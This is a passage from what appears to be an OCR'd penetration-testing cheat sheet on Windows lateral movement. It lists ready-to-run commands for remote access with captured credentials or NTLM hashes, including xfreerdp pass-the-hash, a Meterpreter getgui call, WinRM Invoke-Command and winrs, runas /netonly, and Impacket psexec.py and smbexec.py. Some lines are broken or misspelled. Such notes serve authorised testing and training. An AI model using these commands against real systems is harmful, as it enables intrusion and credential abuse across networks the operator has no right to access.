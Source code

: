             -   -g 80 means takes 80% of your actual screen

        -   rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70

        -   xfreerdp /u:user /d:domain /pth:{ntlm\_hash} /v:192.168.112.200

        -   Meterpreter \>  run getgui -u admin -p 1234

    -   **Windows Remote Management (WinRM)**

        -   Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a admins to interact and execute commands on a remote system {works on port 5985 , 5986}

        -   powershell Enable-PSRemoting -Force

        -   Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\\ }

            -   Invoke-command Can be used over winrm service

        -   winrs -r:http://Computer\_name /wsman \"cmd\"

            -   winrm utility

    -   **Runas**

        -   runas /netonly /user:DOMAIN\\username \"cmd.exe\"

        -    runas /noprofil /netonly /user:DOMAIN\\username cmd.exe

-   **Third party tools**

    -   **Vnc**

    -   **Lmpacket tool (Smb)**

        -   git clone https://[github.com]/CoreSecurity/impacket.git

            -   cd impacket/

            -   python setup.py install

        -   http://download.sysinternals.com/files/PSTools.zip

        -   **Psexec**

            -   python psexec.py DOMAIN/username:password@\[ip\]

            -   python psexec.py username:Password\@192.168.112.200 cmd.exe

            -   python psexec.py -hashes {}  user\@192.168.10.60 \"cmd\"

            -   PsExec.exe \\\\{hostname/ip} -u administrator -p {password} cmd

            -   PsExec64.exe \\\\WIN01 -accepteula -s -u localadmin -p password \"cmd\"

            -   PsExec64.exe \\\\192.168.10.60 -accepteula -s -u localadmin -p password cmd.exe

        -   **Smbexec**

            -   python smbexec.py DOMAIN/username:password\@10.10.10.10

            -   python smbexec.py user:Password\@192.168.112.200 cmd.exe

            -   python smbexec.py -hashes \[hash\] ./aasadmin\@192.168.10.60
